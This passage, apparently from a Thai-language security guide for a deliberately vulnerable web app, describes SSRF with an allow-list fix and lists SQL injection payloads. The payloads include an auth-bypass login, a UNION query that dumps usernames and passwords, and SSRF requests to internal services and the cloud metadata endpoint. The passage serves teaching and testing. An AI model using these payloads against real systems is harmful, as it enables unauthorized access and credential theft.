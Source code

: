 ```javascript
  // ...existing code...
});
```

### 10. Server-Side Request Forgery (SSRF)

**ไฟล์:** `app.js` (ฟังก์ชัน `/fetch-data`)

**คำอธิบาย:** แอปพลิเคชันอนุญาตให้ผู้ใช้ระบุ URL ที่ต้องการดึงข้อมูลโดยไม่มีการตรวจสอบ

**ตัวอย่างการโจมตี:**
```javascript
// เข้าถึง internal service:
fetch('/fetch-data?url=http://internal-api/admin')

// เข้าถึง metadata ของ cloud instance:
fetch('/fetch-data?url=http://169.254.169.254/latest/meta-data/')
```

**วิธีแก้ไข:**
```javascript
const isAllowedUrl = (url) => {
  const allowList = [
    'api.example.com',
    'cdn.example.com'
  ];
  const parsedUrl = new URL(url);
  return allowList.includes(parsedUrl.hostname);
};

app.get('/fetch-data', async (req, res) => {
  const { url } = req.query;
  if (!isAllowedUrl(url)) {
    return res.status(403).json({ error: 'URL ไม่ได้รับอนุญาต' });
  }
  // ...fetch data...
});
```

## 🎯 การทดสอบแบบละเอียด

### 1. SQL Injection (ระดับความเสี่ยง: สูง)

#### ตัวอย่างการโจมตีแบบพื้นฐาน:
```sql
username: admin' --
password: อะไรก็ได้
```

#### ตัวอย่างการโจมตีแบบซับซ้อน:
```sql
# 1. ดึงข้อมูล version ของ SQLite:
username: ' UNION SELECT 1,sqlite_version(),3,4--

# 2. ดึงรายชื่อตารางทั้งหมด:
username: ' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--

# 3. ดึงข้อมูลผู้ใช้ทั้งหมดพร้อมรหัสผ่าน:
username: ' UNION SELECT id,username,password,role FROM users--
```
